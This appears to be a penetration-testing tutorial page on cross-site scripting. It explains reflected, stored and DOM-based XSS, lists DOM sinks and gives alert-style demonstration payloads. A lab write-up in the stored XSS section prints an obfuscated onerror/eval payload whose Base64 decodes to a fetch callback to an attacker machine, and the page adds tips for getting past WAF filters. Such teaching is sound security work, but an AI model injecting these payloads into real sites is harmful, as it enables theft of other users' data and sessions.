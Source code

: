 ```yaml
---
description: <script>alert('xss')</script>
---
```


# Cross-Site Scripting

Cross-Site Scripting, or XSS, is a vulnerability that allows attackers to exploit the interactions that **other users** have with an application. It may allow one to impersonate and perform actions as another user, steal information and in some cases, gain RCE.


## XSS

The most common way of testing for XSS is to call the Javascript alert function. For example, the script tags of HTML can be used :`<script>alert(1)</script>`, which produces this window:

<figure><img src="../.gitbook/assets/image (2545).png" alt=""><figcaption></figcaption></figure>

Browsers and websites allow users to interact with them and perform actions through Javascript. XSS would work via injecting malicious Javascript code to execute on a user's browser.

There are 3 types of XSS:

1. Reflected XSS
2. Stored XSS
3. DOM Based XSS

### Reflected XSS

Reflected XSS is the simplest form of the exploit. This occurs when a malicious script is reflected off a web application and onto the victim's browser. This script is normally activated through a link or action on the website and would be redirected to the next user.

<figure><img src="../.gitbook/assets/image (3766).png" alt=""><figcaption></figcaption></figure>

An example would be as follows:

* Suppose a website has a function that uses a user-controlled parameter like `http://example.com?search=test`
* This search term causes this to appear on the page:
  * `<p>You searched for: test </p>`
* Using Reflected XSS, one construct a malicious search link that would trigger a pop-up to appear on screen.&#x20;
* Use `http://example.com?search=<script>alert(1)</script>` as the URL. 
* When any other user enters this link, malicious scripts could be executed on their end and the pop-up would show up in their browsers.
* This works because the rendering of HTML would show this:
  * `<p>You searched for: <script>alert(1)</script></p>`
  * The script tags allow for an 'escape' from the paragraph tags, and we can execute Javascript code within the tags.

Reflected XSS attacks still rely on the **victim user to make the request themselves**. The best attackers to trigger this is to send phishing links or putting malicious links all over a website.

The reliance on the user makes the impacts of XSS less severe compared to the other forms of XSS.

### Stored XSS

Stored XSS means that the malicious script is stored on the website itself. Each time a user visits the page that the script is on, it would execute. Stored XSS has much more severe impacts, as it only requires users visit the page with the payload. This can be in the form of a blog post comment, editing the website page to have hidden Javascript, etc.

<figure><img src="../.gitbook/assets/image (1684).png" alt=""><figcaption></figcaption></figure>

Here's an example of XSS from the HTB machine, Extension:

After enumeration of the website, I found a stored XSS vulnerability in the 'Report Issues' function of the Gitea instance. The victim has been found to visit the Issues tab of the Gitea instance from time to time.

This was the payload found to work: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

How this payload works is through rendering an **image** tag and having a script execute on an **event** called 'onerror', which means if the image fails to load, it would load the script. The script is calling an **eval** function which has a Base64 encoded command using **fetch** to connect back to the attacker machine on port 80.

When inputted, the victim would view the Issues and be served this payload. This results in the victim's browser making a callback to the attacker machine. On the attacker machine, this is received on a `nc` listener.

<figure><img src="../.gitbook/assets/image (1246).png" alt=""><figcaption></figcaption></figure>

This confirms that the XSS is working properly. For this machine, the payload can be modified to include information about a hidden directory that only the victim can access:

<figure><img src="../.gitbook/assets/image (1714).png" alt=""><figcaption></figcaption></figure>

Stored XSS is much more dangerous because it stores the script on the page itself and exploiting every user that visits it. In the above example, XSS was used to steal information about a directory that only the user could visit. In other cases, stuff like authorisation cookies or passwords can be stolen by attackers.

### DOM-Based XSS

DOM XSS arises when Javascript takes some input from a user-controlled source and processes it insecurely.&#x20;

> Document Object Model (DOM) is a programming interface for web pages, defining the structure of a document and how the document is accessed and manipulated. A website can use Javascript to do something, but uses DOM to access the document and the relevant elements. DOM is structured like a hiearchy tree, with a root element and other elements that are children of the root node.
>
> More can be read here:
>
> [https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction)

DOM XSS arises when data is passed to something called a **sink**, defined as a function that supports **dynamic code execution.** Malicious Javascript code can be passed to this sink and allow for the execution of Javascript used to hijack other accounts.

Here are some sinks that can be used for DOM XSS:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

These functions **are not limited to only XSS,** but can also be used for other DOM exploits, such as **open redirection,** through exploiting taint flow vulnerabilities.&#x20;

There are methods to test the HTML and Javascript sinks that are within a website that require the use of browser inspector tools, which would involve looking at how data is parsed by the function. First, we would need to identify a potential source (input location) whereby our input is processed via the sink. Then we can test them as follows:

* HTML Sinks
  * Input HTML strings within a potentially vulnerable sink.
  * Check the page source and try to find out string.
  * Attempt to break out of the HTML tags to execute our code.&#x20;
* Javascript execution sinks
  * Use the Javascript Debugger to determine whether and how our input is sent to a sink.
  * Add a break point and follow how the source's value is read, then track the variables to see if they are passed to a sink.
  * Once a vulnerable sink is found, inject malicious payloads.

**Here's an example of exploiting DOM-based XSS:**

Suppose a website uses a dashboard that changes based on the username of the user. The username is encoded **in the URL**, and is **dynamically retrieved** using sinks.

```markup
<html>
<head>
<title>Custom Dashboard </title>
...
</head>
Main Dashboard for
<script>
	var pos=document.URL.indexOf("context=")+8;
	document.write(document.URL.substring(pos,document.URL.length));
</script>
...
</html>
```

The vulnerable sink used is **document.write( )** and the **source** would be a `context` parameter we pass to the website. A malicious script can be embedded in the URL like this: `http://example.com/dashboard.html#context=<script>alert(1)</script>`.

When the link is clicked by a user and their browser starts building the DOM of the page, the malicious context parameter is extracted and the HTML is updated to have our code. The browser then runs this code and calls the alert function.

## Payloads

XSS is a common vulnerability and there are often measures to prevent it's execution. For example, a website could restrict the usage of `events` or `<script>` tags to prevent users from exploiting it. However, there are always ways to bypass this.

In basic cases, websites can allow for `<script>` tags to be used as input and allow for the embedding of HTML directly on the page. However, if the website has a WAF that does not allow this, one can fuzz the tags possible.

Event attributes can be used in conjunction with tags to deliver the payload, such as **onerror**. Again, this can be brute forced. There are many combinations of event events and attributes, and some can bypass the WAFs faced.

> HTML Event attributes allow events to trigger actions on a browser, like starting Javascript whne a user clicks on an element. For example, using the `<img src="x" onerror=alert(1)>` payload would attempt to render an image, which would always result in an error since `x` is not a valid `img src`. This would trigger the alert(1) to happen.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection" %}
